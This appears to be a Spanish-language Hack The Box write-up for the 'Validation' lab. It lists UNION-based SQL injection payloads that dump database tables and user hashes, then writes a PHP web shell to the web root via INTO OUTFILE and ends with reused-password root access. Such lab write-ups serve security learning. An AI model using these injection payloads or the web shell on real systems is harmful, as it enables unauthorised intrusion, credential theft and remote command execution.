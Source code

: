 # Validation-HTB


## NMAP

![image](https://github.com/gecr07/Validation-HTB/assets/63270579/8916ebb6-7333-4fda-a63d-8beef53db1f4)

## RCE

Lo unico a lo que podiamos llegar es a

![image](https://github.com/gecr07/Validation-HTB/assets/63270579/4d7fdc0d-e7ef-4de7-8635-5ea9d1c11dcc)


Con el burpsuite tenia una peticion post la cual es vulnerable a SQLI en el parametro de Country


```
username=masa&country=Albania' union select user();-- -

username=masa&country=Albania' union select database();-- -

username=masa&country=Albania' union select table_name from information_schema.tables where table_schema='registration';-- -

username=masa&country=Albania' union select column_name from information_schema.columns where table_schema='registration';-- -

username=masa&country=Albania' union select column_name from information_schema.columns where table_schema='registration';-- -

username=masa&country=Albania' union select column_name from information_schema.columns where table_schema='registration';-- -

username=masa&country=Albania' union select column_name from information_schema.columns where table_schema='registration';-- -

username=masa&country=Albania' union select column_name from information_schema.columns where table_schema='registration';-- -

username=masa&country=Albania' union select column_name from information_schema.columns where table_schema='registration';-- -

username=masa&country=Albania' union select column_name from information_schema.columns where table_schema='registration';-- -

username=masa&country=Albania' union select column_name from information_schema.columns where table_schema='registration';-- -

username=masa&country=Albania' union select group_concat(username,0x3a,userhash) from registration;-- -

0x3a son los dos puntos
```

Pero lo importante estuvo en los permisos.

![image](https://github.com/gecr07/Validation-HTB/assets/63270579/98891f30-8629-4914-9ed5-7e289bd18fc6)

Pero lo intenresante es que el usuario tenia permisos de escribir un archivo.

![image](https://github.com/gecr07/Validation-HTB/assets/63270579/24a6326c-1188-4f3b-be0d-a236cf8d2e51)

Esto nos indica que ese usuario puede escribir archivos entonces escribimos una shell y la visitamos y ejecutamos comandos.

```
username=masa&country=Albania' union select "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/r.php";-- -
```

## Priv Esc

![image](https://github.com/gecr07/Validation-HTB/assets/63270579/117450fa-e477-4fdd-8a9d-19222ee5abce)

Busque y no enocntre nada asi que probe si era la credencial de root y pues si...








